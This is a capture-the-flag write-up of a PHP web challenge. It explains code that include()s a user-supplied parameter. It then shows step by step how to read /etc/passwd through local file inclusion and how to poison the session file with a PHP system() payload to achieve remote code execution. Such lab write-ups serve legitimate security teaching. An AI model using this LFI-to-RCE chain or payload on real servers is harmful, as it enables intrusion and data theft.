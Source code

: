# Web - ForbiddEn JutSu

## Challenge description:

![image](https://user-images.githubusercontent.com/70543460/209949450-0119cb60-c0d1-4016-8b2a-42d2b3709560.png)


## Solution:

### (1) Understanding the source code:

When I open the web application I get the following source code:
![image](https://user-images.githubusercontent.com/70543460/209949580-592a3ee7-08b0-4e8e-9c4d-cc5b4d638ad4.png)

----------

```php
session_start();
```
This creates a new session or resumes the current one based on a session identifier passed via a GET or POST request, or passed via a cookie.

So, when the ```session_start()``` runs at the first time, PHP generates a unique session id and passes it to the web browser in the form of a cookie named **PHPSESSID**.

And if a session already exists, PHP checks the **PHPSESSID** cookie sent by the browser, the ```session_start()``` function will resume the existing session instead of creating a new one.

----------

```php
highlight_file(__FILE__);
```
This prints out or returns a syntax highlighted version of the code contained in the current file using the colors defined in the built-in syntax highlighter for PHP.

----------

```php
if(isset($_GET["karma"])){
    $_SESSION["boruto"]=$_GET["karma"];
    include($_GET["karma"]);
```
The if statement checks if the **karma** parameter has been provided in the GET request. If the **karma** parameter is present, the if block will be executed.

Inside the if block: The ```$_SESSION["boruto"]``` variable is set to the value of the **karma** parameter.

Noting that ```$_SESSION``` is an associative array containing session variables available to the current script. And when you store the data in a session using the ```$_SESSION``` super-global, it’s eventually stored in a corresponding session file on the server which was created when the session was started.

Finally, ```include($_GET["karma"]);``` causes the PHP interpreter to include and execute the file specified by the **karma** parameter.

----------

### (2) LFI:

After understanding the source code, I tried passing ``/etc/passwd`` to the **karma** parameter, and the content was printed out:

![image](https://user-images.githubusercontent.com/70543460/209953379-8fa8cb4f-854d-488d-bb8e-7c8c61daccbd.png)

And according to the comment in the source code which says:
```php
//Our secret is in the root directory; You can't reveal it without achieving RCE Jutsu ;)
```
I need to achieve RCE because I won't be able to know the name of the secret file which contains the flag which is located in the root ``/`` directory.

----------

### (3) LFI to RCE:

According to the following line of the source code:
```php
$_SESSION["boruto"]=$_GET["karma"];
```
The value of the **karma** parameter is stored in the session file on the server which was created when the session was started.

After searching a little bit, I found that ```/tmp/``` directory is one of the common locations to store session data files in the following format:
 ```/tmp/sess_[PHPSESSID]```

![image](https://user-images.githubusercontent.com/70543460/209961297-61a8d059-977c-4828-afb1-b77aa29e90cf.png)

So, my sessiod data file was: ```/tmp/sess_26ef471f0ed2b7e54244bd9b0e6e1641```
![image](https://user-images.githubusercontent.com/70543460/209962272-0ac2426b-060d-495e-a748-163bffb66182.png)

And to test the following line:
```php
$_SESSION["boruto"]=$_GET["karma"];
```
I passed **anything** as a value to the **karma** parameter:
```
http://44.200.237.73/?karma=anything
```
Then I opened my session data file:
```http://44.200.237.73/?karma=/tmp/sess_26ef471f0ed2b7e54244bd9b0e6e1641```

And found the data that I passed as a value to the **karma** parameter:
![image](https://user-images.githubusercontent.com/70543460/209962814-8d52e296-335b-4534-9a66-0d9534389f73.png)

Accordingly, I passed a php code that executes ```ls -a /``` as a value to the **karma** parameter:

```http://44.200.237.73/?karma=<?php system('ls -a /');?>```

Then I opened my session data file:

```http://44.200.237.73/?karma=/tmp/sess_26ef471f0ed2b7e54244bd9b0e6e1641```

Bingo! I was able to achieve RCE and I got the name of the secret file which is located in the root ```/``` directory:

![image](https://user-images.githubusercontent.com/70543460/209963269-11c5a430-b0a5-4c00-8742-2418debaaea2.png)

Finally, I got that flag:
```http://44.200.237.73/?karma=/seCretJutsuToKillBorUtoKun.txt```

![image](https://user-images.githubusercontent.com/70543460/209963922-1350f38a-ab69-458d-8f1d-8d52d4f933e7.png)

